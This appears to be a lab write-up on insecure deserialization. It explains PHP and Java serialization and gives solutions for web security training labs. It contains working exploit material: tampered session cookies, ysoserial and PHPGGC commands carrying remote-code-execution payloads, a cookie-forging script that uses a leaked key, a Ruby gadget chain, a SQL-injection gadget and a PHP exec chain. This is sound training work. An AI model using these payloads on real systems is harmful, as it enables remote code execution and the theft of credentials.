

## What is serialization?

Serialization is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes.
### Serialization vs deserialization

Deserialization is the process of restoring this byte stream to a fully functional replica of the original object, in the exact state as when it was serialized. The website's logic can then interact with this deserialized object, just like it would with any other object. 

Be aware that when working with different programming languages, serialization may be referred to as marshalling (Ruby) or pickling (Python). These terms are synonymous with "serialization" in this context. 
### What is insecure deserialization?

Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.

It is even possible to replace a serialized object with an object of an entirely different class. Alarmingly, objects of any class that is available to the website will be deserialized and instantiated, regardless of which class was expected. For this reason, insecure deserialization is sometimes known as an "object injection" vulnerability.

An object of an unexpected class might cause an exception. By this time, however, the damage may already be done. Many deserialization-based attacks are completed before deserialization is finished. This means that the deserialization process itself can initiate an attack, even if the website's own functionality does not directly interact with the malicious object. For this reason, websites whose logic is based on strongly typed languages can also be vulnerable to these techniques. 
## Exploiting insecure deserialization vulnerabilities
### How to identify insecure deserialization

Identifying insecure deserialization is relatively simple regardless of whether you are whitebox or blackbox testing.

During auditing, you should look at all data being passed into the website and try to identify anything that looks like serialized data. Serialized data can be identified relatively easily if you know the format that different languages use. In this section, we'll show examples from both PHP and Java serialization. Once you identify serialized data, you can test whether you are able to control it. 

### PHP serialization format

PHP uses a mostly human-readable string format, with letters representing the data type and numbers representing the length of each entry. For example, consider a User object with the attributes:

`$user->name = "carlos";`

`$user->isLoggedIn = true;`

When serialized, this object may look something like this:

`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

This can be interpreted as follows:

-    `O:4:"User"` - An object with the 4-character class name "User"
-    `2` - the object has 2 attributes
-    `s:4:"name"` - The key of the first attribute is the 4-character string "name"
-    `s:6:"carlos"` - The value of the first attribute is the 6-character string "carlos"
-    `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string "isLoggedIn"
-    `b:1` - The value of the second attribute is the boolean value true

The native methods for PHP serialization are `serialize()` and `unserialize()`. If you have source code access, you should start by looking for `unserialize()` anywhere in the code and investigating further. 
### Java serialization format

Some languages, such as Java, use binary serialization formats. This is more difficult to read, but you can still identify serialized data if you know how to recognize a few tell-tale signs. For example, serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in hexadecimal and `rO0` in Base64.

Any class that implements the interface `java.io.Serializable` can be serialized and deserialized. If you have source code access, take note of any code that uses the `readObject()` method, which is used to read and deserialize data from an `InputStream`. 
## Manipulating serialized objects

Broadly speaking, there are two approaches you can take when manipulating serialized objects. You can either edit the object directly in its byte stream form, or you can write a short script in the corresponding language to create and serialize the new object yourself. The latter approach is often easier when working with binary serialization formats. 
### Modifying object attributes

When tampering with the data, as long as the attacker preserves a valid serialized object, the deserialization process will create a server-side object with the modified attribute values.

As a simple example, consider a website that uses a serialized User object to store data about a user's session in a cookie. If an attacker spotted this serialized object in an HTTP request, they might decode it to find the following byte stream:

`O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}`

The `isAdmin` attribute is an obvious point of interest. An attacker could simply change the boolean value of the attribute to 1 (true), re-encode the object, and overwrite their current cookie with this modified value. In isolation, this has no effect. However, let's say the website uses this cookie to check whether the current user has access to certain administrative functionality:
```php
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
```
### Lab: Modifying serialized objects

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 

For this challenge, modify the cookie session as follow


### Modifying data types

PHP-based logic is particularly vulnerable to this kind of manipulation due to the behavior of its loose comparison operator (==) when comparing different data types. For example, if you perform a loose comparison between an integer and a string, PHP will attempt to convert the string to an integer, meaning that 5 == "5" evaluates to true.

Unusually, this also works for any alphanumeric string that starts with a number. In this case, PHP will effectively convert the entire string to an integer value based on the initial number. The rest of the string is ignored completely. Therefore, 5 == "5 of something" is in practice treated as 5 == 5.

Likewise, on PHP 7.x and earlier the comparison 0 == "Example string" evaluates to true, because PHP treats the entire string as the integer 0.

Consider a case where this loose comparison operator is used in conjunction with user-controllable data from a deserialized object. This could potentially result in dangerous logic flaws.
```php
$login = unserialize($_COOKIE)
if ($login['password'] == $password) {
// log in successfully
}
```
Let's say an attacker modified the password attribute so that it contained the integer 0 instead of the expected string. As long as the stored password does not start with a number, the condition would always return true, enabling an authentication bypass. Note that this is only possible because deserialization preserves the data type. If the code fetched the password from the request directly, the 0 would be converted to a string and the condition would evaluate to false. 

> In PHP 8 and later, the 0 == "Example string" comparison evaluates to false because strings are no longer implicitly converted to 0 during comparisons. As a result, this exploit is not possible on these versions of PHP. The behavior when comparing an alphanumeric string that starts with a number remains the same in PHP 8. As such, 5 == "5 of something" is still treated as 5 == 5. 

### Lab: Modifying serialized data types

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 

For this challenge, change the session as follow:


### Using application functionality

As well as simply checking attribute values, a website's functionality might also perform dangerous operations on data from a deserialized object. In this case, you can use insecure deserialization to pass in unexpected data and leverage the related functionality to do damage.

For example, as part of a website's "Delete user" functionality, the user's profile picture is deleted by accessing the file path in the $user->image_location attribute. If this $user was created from a serialized object, an attacker could exploit this by passing in a modified object with the image_location set to an arbitrary file path. Deleting their own user account would then delete this arbitrary file as well. 
### Lab: Using application functionality to exploit insecure deserialization

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud 

For this challenge, modify the cookie as follow:


## Magic methods

Magic methods are a special subset of methods that you do not have to explicitly invoke. Instead, they are invoked automatically whenever a particular event or scenario occurs. Magic methods are a common feature of object-oriented programming in various languages. They are sometimes indicated by prefixing or surrounding the method name with double-underscores.

Developers can add magic methods to a class in order to predetermine what code should be executed when the corresponding event or scenario occurs. Exactly when and why a magic method is invoked differs from method to method. One of the most common examples in PHP is `__construct()`, which is invoked whenever an object of the class is instantiated, similar to Python's `__init__`. Typically, constructor magic methods like this contain code to initialize the attributes of the instance. However, magic methods can be customized by developers to execute any code they want.

Magic methods are widely used and do not represent a vulnerability on their own. But they can become dangerous when the code that they execute handles attacker-controllable data, for example, from a deserialized object. This can be exploited by an attacker to automatically invoke methods on the deserialized data when the corresponding conditions are met.

Most importantly in this context, some languages have magic methods that are invoked automatically during the deserialization process. For example, PHP's `unserialize()` method looks for and invokes an object's `__wakeup()` magic method.

In Java deserialization, the same applies to the `ObjectInputStream.readObject()` method, which is used to read data from the initial byte stream and essentially acts like a constructor for "re-initializing" a serialized object. However, Serializable classes can also declare their own `readObject()` method as follows:
```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
    // implementation
}
```
A `readObject()` method declared in exactly this way acts as a magic method that is invoked during deserialization. This allows the class to control the deserialization of its own fields more closely.

You should pay close attention to any classes that contain these types of magic methods. They allow you to pass data from a serialized object into the website's code before the object is fully deserialized. This is the starting point for creating more advanced exploits. 
### Injecting arbitrary objects

As we've seen, it is occasionally possible to exploit insecure deserialization by simply editing the object supplied by the website. However, injecting arbitrary object types can open up many more possibilities.

In object-oriented programming, the methods available to an object are determined by its class. Therefore, if an attacker can manipulate which class of object is being passed in as serialized data, they can influence what code is executed after, and even during, deserialization.

Deserialization methods do not typically check what they are deserializing. This means that you can pass in objects of any serializable class that is available to the website, and the object will be deserialized. This effectively allows an attacker to create instances of arbitrary classes. The fact that this object is not of the expected class does not matter. The unexpected object type might cause an exception in the application logic, but the malicious object will already be instantiated by then.

If an attacker has access to the source code, they can study all of the available classes in detail. To construct a simple exploit, they would look for classes containing deserialization magic methods, then check whether any of them perform dangerous operations on controllable data. The attacker can then pass in a serialized object of this class to use its magic method for an exploit. 
### Lab: Arbitrary object injection in PHP

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter 


Access `/libs/CustomTemplate.php~` to get the src code
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
- The `CustomTemplate` class has a `__destruct()` method that automatically runs when the object is destroyed.
- The `__destruct()` method calls `unlink($this->lock_file_path)`, deleting the file at lock_file_path.
- If we replace the `User` object with a `CustomTemplate` object and set `lock_file_path` to `/home/carlos/morale.txt`, the script will delete the file.

To exploit the vulnerability, we craft this payload:

`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

-    **O:14:"CustomTemplate"** → This creates an instance of the CustomTemplate class.
-    **1** → It has one property.
-    **s:14:"lock_file_path"** → This is the name of the property, and its length is 14.
-    **s:23:"/home/carlos/morale.txt"** → The value of lock_file_path is /home/carlos/morale.txt (23 characters long).
-    When unserialized, this object will automatically delete the specified file when it goes out of scope.

When PHP unserializes the session, it re-creates the `CustomTemplate` object with this property value.
At the end of the request, PHP automatically destroys the object, triggering `__destruct()`.
## Gadget chains

A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. An individual gadget may not directly do anything harmful with user input. However, the attacker's goal might simply be to invoke a method that will pass their input into another gadget. By chaining multiple gadgets together in this way, an attacker can potentially pass their input into a dangerous "sink gadget", where it can cause maximum damage.

It is important to understand that, unlike some other types of exploit, a gadget chain is not a payload of chained methods constructed by the attacker. All of the code already exists on the website. The only thing the attacker controls is the data that is passed into the gadget chain. This is typically done using a magic method that is invoked during deserialization, sometimes known as a "kick-off gadget". 
### Working with pre-built gadget chains

Manually identifying gadget chains can be a fairly arduous process, and is almost impossible without source code access. Fortunately, there are a few options for working with pre-built gadget chains that you can try first.

There are several tools available that provide a range of pre-discovered chains that have been successfully exploited on other websites. Even if you don't have access to the source code, you can use these tools to both identify and exploit insecure deserialization vulnerabilities with relatively little effort. This approach is made possible due to the widespread use of libraries that contain exploitable gadget chains. For example, if a gadget chain in Java's Apache Commons Collections library can be exploited on one website, any other website that implements this library may also be exploitable using the same chain.


>One such tool for Java deserialization is "ysoserial". This lets you choose one of the provided gadget chains for a library that you think the target application is using, then pass in a command that you want to execute. It then creates an appropriate serialized object based on the selected chain. This still involves a certain amount of trial and error, but it is considerably less labor-intensive than constructing your own gadget chains manually. 

 In Java versions 16 and above, you need to set a series of command-line arguments for Java to run ysoserial. For example:
 ```
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [payload] '[command]'
```
Not all of the gadget chains in ysoserial enable you to run arbitrary code. Instead, they may be useful for other purposes. For example, you can use the following ones to help you quickly detect insecure deserialization on virtually any server:

-   The URLDNS chain triggers a DNS lookup for a supplied URL. Most importantly, it does not rely on the target application using a specific vulnerable library and works in any known Java version. This makes it the most universal gadget chain for detection purposes. If you spot a serialized object in the traffic, you can try using this gadget chain to generate an object that triggers a DNS interaction with the Burp Collaborator server. If it does, you can be sure that deserialization occurred on your target.
-    JRMPClient is another universal chain that you can use for initial detection. It causes the server to try establishing a TCP connection to the supplied IP address. Note that you need to provide a raw IP address rather than a hostname. This chain may be useful in environments where all outbound traffic is firewalled, including DNS lookups. You can try generating payloads with two different IP addresses: a local one and a firewalled, external one. If the application responds immediately for a payload with a local address, but hangs for a payload with an external address, causing a delay in the response, this indicates that the gadget chain worked because the server tried to connect to the firewalled address. In this case, the subtle time difference in responses can help you to detect whether deserialization occurs on the server, even in blind cases.

### Lab: Exploiting Java deserialization with Apache Commons


This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

Command for the cookie payload
```
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 | jq -sRr @uri
```
### PHP Generic Gadget Chains

Most languages that frequently suffer from insecure deserialization vulnerabilities have equivalent proof-of-concept tools. For example, for PHP-based sites you can use "PHP Generic Gadget Chains" (PHPGGC). 
>It is important to note that the vulnerability is the deserialization of user-controllable data, not the mere presence of a gadget chain in the website's code or any of its libraries. The gadget chain is just a means of manipulating the flow of the harmful data once it has been injected. This also applies to various memory corruption vulnerabilities that rely on deserialization of untrusted data. In other words, a website may still be vulnerable even if it did somehow manage to plug every possible gadget chain. 

### Lab: Exploiting PHP deserialization with a pre-built gadget chain


This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 


Download the "PHPGGC" tool and execute the following command:

`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0`

This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's morale.txt file.

cookieGen.php:
```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
```
$ php cookieGen.php      
%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg%3D%3D%22%2C%22sig_hmac_sha1%22%3A%224fc8bf8f6dddb24958984e8dc21f0b3ec94a038c%22%7D%
```
### Working with documented gadget chains

There may not always be a dedicated tool available for exploiting known gadget chains in the framework used by the target application. In this case, it's always worth looking online to see if there are any documented exploits that you can adapt manually. Tweaking the code may require some basic understanding of the language and framework, and you might sometimes need to serialize the object yourself, but this approach is still considerably less effort than building an exploit from scratch. 
### Lab: Exploiting Ruby deserialization using a documented gadget chain

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

Source code from https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

Use https://www.jdoodle.com/execute-ruby-online to complie ruby 2.6.5
```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.strict_encode64(payload)
```
## Creating your own exploit

When off-the-shelf gadget chains and documented exploits are unsuccessful, you will need to create your own exploit.

To successfully build your own gadget chain, you will almost certainly need source code access. The first step is to study this source code to identify a class that contains a magic method that is invoked during deserialization. Assess the code that this magic method executes to see if it directly does anything dangerous with user-controllable attributes. This is always worth checking just in case.

If the magic method is not exploitable on its own, it can serve as your "kick-off gadget" for a gadget chain. Study any methods that the kick-off gadget invokes. Do any of these do something dangerous with data that you control? If not, take a closer look at each of the methods that they subsequently invoke, and so on.

Repeat this process, keeping track of which values you have access to, until you either reach a dead end or identify a dangerous sink gadget into which your controllable data is passed.

Once you've worked out how to successfully construct a gadget chain within the application code, the next step is to create a serialized object containing your payload. This is simply a case of studying the class declaration in the source code and creating a valid serialized object with the appropriate values required for your exploit. As we have seen in previous labs, this is relatively simple when working with string-based serialization formats.

Working with binary formats, such as when constructing a Java deserialization exploit, can be particularly cumbersome. When making minor changes to an existing object, you might be comfortable working directly with the bytes. However, when making more significant changes, such as passing in a completely new object, this quickly becomes impractical. It is often much simpler to write your own code in the target language in order to generate and serialize the data yourself.

When creating your own gadget chain, look out for opportunities to use this extra attack surface to trigger secondary vulnerabilities. 

 By carefully studying the source code, you can discover longer gadget chains that potentially allow you to construct high-severity attacks, often including remote code execution. 

### Lab: Developing a custom gadget chain for Java deserialization

This lab uses a serialization-based session mechanism. If you can construct a suitable gadget chain, you can exploit this lab's insecure deserialization to obtain the administrator's password.

To solve the lab, gain access to the source code and use it to construct a gadget chain to obtain the administrator's password. Then, log in as the administrator and delete carlos.

You can log in to your own account using the following credentials: wiener:peter 

`AccessTokenUser.java`

```java
package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}
```
`ProductTemplate.java`
```java
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

This code has a Java deserialization vulnerability in the `ProductTemplate` class due to its `readObject` method. The main issue is that when an object of `ProductTemplate` is deserialized, it executes a SQL query based on the id field, which can be attacker-controlled.

```
┌─[nguyenlong05@sw1mj3llyf1sh] - [~] - [Thu Jan 30, 22:57]
└─[$] <> echo 'rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBqMDVkNXJuZnQ4cGI0c2k0YjljeGlncGloNTY1MmVjZXQABndpZW5lcg==' | base64 -d
sr/lab.actions.common.serializable.AccessTokenUserQ'L
accessTokentLjava/lang/String;usernameq~xpt j05d5rnft8pb4si4b9cxigpih5652ecetwiener%      
```

Given that the class involved is `lab.actions.common.serializable.AccessTokenUser`, we can attempt to construct a malicious payload that targets the deserialization vulnerability in `ProductTemplate`.

Solve script:

`Main.java`
```java
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--");

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);

        System.out.println("Deserialized object ID: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```
`/data/productcatalog/Product.java`
```java
// This class added just so that ProductTemplate can compile correctly

package data.productcatalog;
class Product {}
```
`/data/productcatalog/ProductTemplate.java`
```java
// All logic removed from ProductTemplate as it's not needed for serialization

package data.productcatalog;

import java.io.Serializable;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    public String getId() {
        return id;
    }
}
```
The following payload will trigger an exception that displays the password in the error message:

`' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--`

### Lab: Developing a custom gadget chain for PHP deserialization

This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialization to achieve remote code execution. To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 
`/cgi-bin/libs/CustomTemplate.php`
```php
<?php

class CustomTemplate {
    private $default_desc_type; //store the type of description
    private $desc; //an instance of the description class
    public $product; //an instancce of the product class

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();//get 2 description html_desc and text_desc
        $this->default_desc_type = $desc_type; //default is html_desc
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```
In the source code, notice that the `__wakeup()` magic method for a CustomTemplate will create a new Product by referencing the `default_desc_type` and desc from the CustomTemplate.

Also notice that the DefaultMap class has the `__get()` magic method, which will be invoked if you try to read an attribute that doesn't exist for this object. This magic method invokes `call_user_func()`, which will execute any function that is passed into it via the `DefaultMap->callback` attribute. The function will be executed on the `$name`, which is the non-existent attribute that was requested. 

You can exploit this gadget chain to invoke `exec(rm /home/carlos/morale.txt)` by passing in a `CustomTemplate` object where:
```php
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```

This causes the `Product` constructor to try and fetch the `default_desc_type` from the `DefaultMap` object. As it doesn't have this attribute, the `__get()` method will invoke the callback `exec()` method on the `default_desc_type`, which is set to our shell command. 

Decode the cookie
`Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJrYnJ2NXc0aGxxZXIyOTg0bmRsOGJnanY5dXR1MndzNCI7fQ%3d%3d`

`O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"kbrv5w4hlqer2984ndl8bgjv9utu2ws4";}`


To solve the lab, Base64 and URL-encode the following serialized object, and pass it into the website via your session cookie:

`O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}`

**CustomTemplate::build_product()** executes:
```php
$this->product = new Product($this->default_desc_type, $this->desc);
```
**Product::__construct()** does:
```php
$this->desc = $desc->$default_desc_type;
```
which is
```php
$this->desc = $desc->{"rm /home/carlos/morale.txt"};
```
Since desc is an instance of `DefaultMap`, it triggers:
```php
call_user_func($this->callback, "rm /home/carlos/morale.txt");
```
**callback = "exec"**, so this effectively runs:
```php
exec("rm /home/carlos/morale.txt");
```
## PHAR deserialization

So far, we've looked primarily at exploiting deserialization vulnerabilities where the website explicitly deserializes user input. However, in PHP it is sometimes possible to exploit deserialization even if there is no obvious use of the unserialize() method.

PHP provides several URL-style wrappers that you can use for handling different protocols when accessing file paths. One of these is the `phar://` wrapper, which provides a stream interface for accessing PHP Archive (.phar) files.

The PHP documentation reveals that PHAR manifest files contain serialized metadata. Crucially, if you perform any filesystem operations on a `phar://` stream, this metadata is implicitly deserialized. This means that a `phar://` stream can potentially be a vector for exploiting insecure deserialization, provided that you can pass this stream into a filesystem method.

In the case of obviously dangerous filesystem methods, such as `include()` or `fopen()`, websites are likely to have implemented counter-measures to reduce the potential for them to be used maliciously. However, methods such as `file_exists()`, which are not so overtly dangerous, may not be as well protected.

This technique also requires you to upload the PHAR to the server somehow. One approach is to use an image upload functionality, for example. If you are able to create a polyglot file, with a PHAR masquerading as a simple JPG, you can sometimes bypass the website's validation checks. If you can then force the website to load this polyglot "JPG" from a `phar://` stream, any harmful data you inject via the PHAR metadata will be deserialized. As the file extension is not checked when PHP reads a stream, it does not matter that the file uses an image extension.

As long as the class of the object is supported by the website, both the `__wakeup()` and `__destruct()` magic methods can be invoked in this way, allowing you to potentially kick off a gadget chain using this technique. 
### Lab: Using PHAR deserialization to deploy a custom gadget chain

This lab does not explicitly use deserialization. However, if you combine PHAR deserialization with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain.

To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

`CustomTemplate.php`
```php
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
